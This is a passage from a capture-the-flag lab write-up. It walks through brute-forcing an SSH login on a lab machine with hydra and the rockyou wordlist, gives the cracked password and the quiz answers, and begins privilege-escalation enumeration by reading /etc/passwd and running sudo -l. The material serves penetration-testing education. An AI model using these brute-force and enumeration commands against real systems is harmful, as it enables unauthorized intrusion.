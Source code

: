 ![Users](./img/basicpentesting/enum4linux.webp)

answers question 5 and 9.

Moving on to finding the password, I used hydra with the rockyou.txt file to bruteforce it.

```bash
hydra -l jan -P '/usr/share/wordlists/rockyou.txt' ssh://10.10.38.122
```

![Hydra](./img/basicpentesting/hydra.webp)

And from there, I was able to retrieve the password to the user Jan, which was armando.

## 5. What is the username?

Refer to qn 4. Answer: Jan

## 6. What is the password?

Refer to qn 4. Answer: armando

## 7. What service do you use to access the server(answer in abbreviation in all caps)?

To gain remote access:

```bash
ssh jan@10.10.38.122
yes
armando
```

Hence, the answer is SSH

## 8. Enumerate the machine to find any vectors for privilege escalation

For the privilege escalation, I utilised LinPEAS, a popular tool which contains scripts for privilege escalation for Linux systems.
But before that, I wanted to take a look around in the files and directories itself.

[Although it didn't really work as there was not very high level of privileges granted to jan.]

```bash
ls -la
cat .lesshst
cat /etc/passwd

sudo -l
cd ..
ls
cd kay
```

